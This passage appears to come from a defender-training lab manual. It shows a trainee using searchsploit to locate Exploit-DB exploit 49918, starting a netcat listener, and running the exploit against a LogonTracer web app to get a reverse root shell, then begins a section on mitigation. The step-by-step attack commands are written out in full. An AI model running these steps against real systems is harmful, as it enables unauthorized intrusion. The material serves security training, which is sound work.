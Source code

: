 There is an exploit present for the software, though unfortunately, the version is unknown. This is a good time to read the exploit to see if it can be used. Notice the partial path provided — multiple/webapps/49918.py. The filename — 49918.py — is also the exploit ID. Make note of the exploit ID for the next step. 

9. Run the following command to find the full path of the exploit. -p specifies the full path given an exploit ID and copies it to the clipboard, if possible.
(trainee@dmss-kali)-[~] $ searchsploit -p 49918

The full file path — as shown from the results of the command — is /usr/share/exploitdb/exploits/multiple/webapps/49918.py. CDAs should always look at the exploit before using it for a few reasons such as:
Finding usage instructions
Finding out more information about what the exploit is actually doing
Making modifications to the exploit script
Ensuring that there is no malicious code in the exploit

10. Run the following command to read the exploit script:
(trainee@dmss-kali)-[~] $ less -N /usr/share/exploitdb/exploits/multiple/webapps/49918.py

From lines 13–16, the user needs to provide the attacker's IP address, attacker's port, and the Uniform Resource Locator (URL) to the victim.

From lines 22–29, it is evident that it is a command injection vulnerability that is being exploited, which sends back a shell to an attacker's listener.

Keep in mind, it is not necessary to understand everything that is happening in the script, just a general idea of what it is doing. There is no need for an in-depth code review.


11. Run the following command to print the exploit script's help menu:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py -h

Now the syntax of the command is known.

12.  Start a listener before running the exploit, as the exploited host needs something to call back to. The port is somewhat arbitrary. In this case, 4444 is used.
(trainee@dmss-kali)-[~] $ nc -nlvp 4444

13. Open a new tab or window, and run the following command to run the exploit:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py 199.63.64.51 4444 http://200.200.200.10:8080

The output states If the terminal hangs, you might have a shell. Since the terminal hangs immediately after sending the exploit, this is a good sign.

14. Switch back to the other terminal where Netcat was running.

A shell was received from the exploited host. Notice that a few seemingly random characters are returned in the prompt as well. These are escape codes, which are responsible for formatting text that is typically seen when entering text into a terminal and do not affect running commands.

15. Run a command to check the functionality of the shell.
(trainee@dmss-kali)-[~] $ /usr/local/src/LogonTracer # whoami

The shell appears to be in working order, and notice you are the root user on the victim host.

Mitigating Known Exploits
Mitigating known exploits is usually a matter of removing the underlying vulnerability; if the vulnerability does not exist, then the exploit does not work. However, network defenders need to be aware of the vulnerabilities and remain updated on the latest ones to be able to effectively mitigate them. Mitigating vulnerabilities may be composed of a few elements.
